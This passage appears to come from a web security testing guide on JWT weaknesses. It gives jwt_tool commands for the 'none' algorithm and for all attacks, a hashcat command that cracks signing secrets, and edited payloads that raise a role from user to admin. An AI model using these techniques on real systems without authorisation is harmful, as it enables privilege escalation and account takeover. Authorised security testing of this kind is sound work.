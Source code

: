         ```
        # Original{  "alg": "HS256",  "typ": "JWT"}# Modified{  "alg": "none",  "typ": "JWT"}
        ```
        
    - Test for algorithm confusion attacks (RS256 to HS256)
    - Use tools like `jwt_tool` to automate testing:
        
        ```bash
        # Test for 'none' algorithm vulnerabilityjwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzQxMTgwOTM3fQ.lWXErjU2OR0g4k8Yn2g7ItE0k6br0T0ZNAQiURkvzKc -X a# Test all JWT attacksjwt_tool -t https://example.com/api/protected -rh 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzQxMTgwOTM3fQ.lWXErjU2OR0g4k8Yn2g7ItE0k6br0T0ZNAQiURkvzKc' -M at
        ```
        

#### 5.3 JWT Secret Strength Testing

- Test for weak JWT signing secrets:
    - Use `hashcat` to attempt cracking the signature:
        
        ```bash
        # Mode 16500 is for JWThashcat -a 0 -m 16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzQxMTgwOTM3fQ.lWXErjU2OR0g4k8Yn2g7ItE0k6br0T0ZNAQiURkvzKc rockyou.txt
        ```
        
    - Try common secrets like "secret", "password", API names, company names
    - If successful, create new tokens with elevated privileges

#### 5.4 JWT Claim Testing

- Test manipulation of JWT claims:
    - Modify standard claims (sub, iss, exp, nbf, iat, jti)
    - Test for JWT replay attacks (use expired tokens)
    - Check if critical claims are properly validated
    - Test for privilege escalation by modifying role/group claims:
        
        ```
        # Original payload{  "userid": "user",  "role": "user",  "iat": 1741180937}# Modified payload{  "userid": "user",  "role": "admin",  "iat": 1741180937}
        ```
        
